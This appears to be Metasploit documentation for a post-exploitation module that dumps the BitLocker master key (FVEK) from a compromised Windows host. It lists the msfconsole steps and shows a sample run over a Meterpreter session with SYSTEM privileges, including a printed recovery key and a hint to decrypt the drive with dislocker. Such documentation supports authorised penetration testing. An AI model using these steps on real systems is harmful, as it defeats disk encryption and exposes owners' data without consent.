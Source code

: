 ## Vulnerable Application

This module enumerates ways to decrypt Bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/bitlocker_fvek`
  4. Do: `set SESSION <session id>`
  5. Do: `set DRIVE_LETTER <letter>`
  6. Do: `run`

## Options

  ```
  DRIVE_LETTER
  ```
  Dump informations from the DRIVE_LETTER encrypted with Bitlocker.

  ```
  RECOVERY_KEY
  ```
  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

  ```
  SESSION
  ```
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfuly opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfully extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf5 post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : TEST-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : DOMAIN
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
